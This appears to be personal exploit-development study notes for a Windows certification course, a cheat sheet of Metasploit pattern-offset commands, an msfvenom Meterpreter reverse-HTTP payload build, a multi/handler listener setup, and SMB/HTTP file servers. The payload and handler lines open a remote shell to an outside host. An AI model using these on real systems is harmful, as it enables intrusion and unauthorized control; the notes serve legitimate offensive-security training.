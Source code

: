 # x86Win-OSED-Notes

Pattern generation:
```
$ msf-pattern_create -l 800
$ msf-pattern_offset -l 800 -q 42306142
```

met payload:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe

# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

smbserver:
```
sudo smbserver.py met /home/kali/ -smb2support
```

http-server:
```
python3 -m http.server
```
